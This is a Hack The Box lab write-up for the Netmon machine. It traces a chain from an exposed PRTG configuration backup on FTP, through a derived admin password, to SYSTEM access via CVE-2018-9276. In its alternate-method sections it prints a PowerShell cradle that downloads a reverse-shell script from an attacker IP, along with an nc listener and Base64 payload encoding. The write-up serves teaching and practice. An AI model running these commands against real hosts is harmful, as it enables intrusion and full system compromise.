





---
title: "Netmon"
description: "PRTG Network Monitor lab walkthrough covering enumeration, credential discovery and exploitation."
category: "Hack The Box"
date: "2026-08-27"
tags:
  - PRTG
  - FTP
  - Windows
  - Enumeration
status: "PUBLISHED"
---

# Netmon

> **LAB ENVIRONMENT** — This writeup documents security testing performed against an intentionally vulnerable training environment.

## Overview

Netmon is a Windows-based lab machine running **PRTG Network Monitor**.

The attack path involved identifying exposed services, accessing PRTG configuration data, recovering administrative credentials and ultimately obtaining SYSTEM-level access to the host.

The observed attack path was:

```text
Service Enumeration
        ↓
FTP Access
        ↓
PRTG Configuration Backup
        ↓
Credential Disclosure
        ↓
Password Pattern Identified
        ↓
PRTG Administrative Access
        ↓
Application Exploitation
        ↓
NT AUTHORITY\SYSTEM
```

## Enumeration

Initial enumeration was performed to identify exposed services and understand the attack surface of the target.



The results identified services of interest, including FTP and a web service hosting **PRTG Network Monitor**.

## PRTG Network Monitor

Browsing to the exposed web service revealed a PRTG Network Monitor installation.



At this stage, valid credentials were required to access the administrative interface.

## FTP Enumeration

FTP access provided visibility into files associated with the PRTG installation.

The PRTG configuration directory was identified at:

```text
/ProgramData/Paessler/PRTG Network Monitor
```

Within this location, a backup configuration file was identified:

```text
PRTG Configuration.old.bak
```

The backup was downloaded and reviewed for potentially sensitive configuration information.

## Credential Discovery

Inspection of the PRTG configuration backup revealed credentials for the `prtgadmin` account.

```xml
<dbcredentials>
    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>
</dbcredentials>
```

The recovered password appeared to use a predictable year-based naming convention.

The year was incremented:

```text
PrTg@dmin2018
        ↓
PrTg@dmin2019
```

The modified password successfully authenticated to the PRTG application.

This demonstrated how an exposed historical configuration backup, combined with a predictable password pattern, could lead to administrative access even when the credential stored in the backup was no longer current.

## Administrative Access

The derived credentials provided access to the PRTG administrative interface.

With authenticated administrative access established, the application became the next stage of the attack path.

Research into the PRTG version and available functionality identified potential methods for obtaining command execution on the underlying Windows host.

## Exploitation

Research identified **CVE-2018-9276** as relevant to PRTG Network Monitor.

Reference:

```text
CVE-2018-9276
```

Successful exploitation resulted in command execution on the Windows host.



The resulting execution context was:

```text
NT AUTHORITY\SYSTEM
```

Obtaining SYSTEM-level execution represented complete compromise of the target host.

## Alternate Method — Notification Execution

An alternative technique was also investigated using PRTG's notification functionality.

Within the authenticated administrative interface, notification configuration was available under:

```text
Setup
  → Account Settings
  → Notifications
  → Execute Program
```



The objective was to use the notification functionality to execute a PowerShell payload.

A PowerShell TCP payload was prepared and modified to connect back to the attacking host.

Example payload delivery:

```powershell
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.6:8000/Invoke-PowerShellTcp.ps1")
```

A listener was then prepared on the attacking system:

```bash
nc -nlvp 443
```

This technique did not successfully execute during this particular attempt.



## Alternate Method — Encoded PowerShell

A second variation was tested by encoding the PowerShell payload as Base64.

The script was converted to UTF-16LE and Base64 encoded:

```bash
cat Invoke-PowerShellTcp.ps1 | iconv -t UTF-16LE | base64 -w0
```

The resulting encoded payload was supplied to PowerShell:

```powershell
powershell -enc <BASE64_PAYLOAD>
```

The notification was then triggered while a listener waited for the callback.

This approach was also unsuccessful during this instance of testing, although the technique was retained in the notes as an alternative exploitation path for further investigation.

## Key Observations

Several security issues contributed to the compromise:

- FTP exposed sensitive PRTG configuration material.
- A historical configuration backup contained administrative credentials.
- The administrative password followed a predictable year-based pattern.
- Administrative access exposed functionality capable of contributing to command execution.
- Successful exploitation resulted in SYSTEM-level access to the Windows host.

The individual weaknesses became significantly more serious when chained together.

## Attack Path

The complete observed attack path was:

```text
[ TARGET ]
    │
    ▼
Service Enumeration
    │
    ▼
FTP Accessible
    │
    ▼
PRTG Configuration Backup
    │
    ▼
prtgadmin Credential Recovered
    │
    ▼
Password Pattern Identified
    │
    ▼
PRTG Administrator Access
    │
    ▼
PRTG Exploitation
    │
    ▼
NT AUTHORITY\SYSTEM
```

## Conclusion

Netmon demonstrates the importance of considering how apparently separate security weaknesses can be chained together.

The exposure of a historical PRTG configuration backup provided an initial credential. Although that credential was outdated, its predictable structure allowed a valid administrative password to be derived.

Administrative access to PRTG then provided the pathway toward code execution and ultimately SYSTEM-level compromise of the Windows host.

The key lesson from the lab was not simply the exploitation of PRTG, but the attack chain created by **information exposure, weak credential practices and privileged application functionality**.